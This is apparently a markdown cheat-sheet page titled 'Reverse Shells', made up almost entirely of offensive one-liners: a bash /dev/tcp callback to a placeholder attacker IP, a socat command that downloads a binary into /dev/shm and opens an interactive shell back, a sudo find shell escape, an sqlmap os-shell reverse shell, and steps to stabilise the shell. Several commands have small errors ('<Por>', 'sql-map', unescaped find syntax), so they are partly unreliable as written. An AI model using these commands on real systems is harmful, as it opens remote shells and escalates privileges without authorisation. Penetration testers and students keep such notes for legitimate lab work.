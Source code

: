 ```yaml
---
title: "Reverse Shells"
date: 2025-04-10 +0530
categories: [Cyber-Security]
tags: [bash, socat, shell, reverse, tcp, find, sqlmap]
order: 6
---
```


# Reverse Shells

#### Bash

```
/bin/sh -i >& /dev/tcp/<Your-IP>/<Por> 0>&1
```

#### Linux Script command

```bash
script -qc /bin/bash /dev/null
```

#### Socat

```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /dev/shm/socat; chmod +x /dev/shm/socat; /dev/shm/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<Your-IP>:<Port>
```

#### Linux find command

```bash
sudo find . -exec /bin/sh ; -quit
```

#### SQLMap

```bash
sql-map --os-shell reverse shell bash -c "bash -i >& /dev/tcp/<Your-IP>/443 0>&1"
```











## Stabilize a reverse shell

#### Python

```bash
python -c 'import pty;pty.spawn("/bin/bash")';
```

```bash
ctrl+z
```

```bash
stty raw -echo stty size
```

```bash
fg
```

```bash
export SHELL=bash stty rows $31 columns $144 export TERM=xterm-256color
```


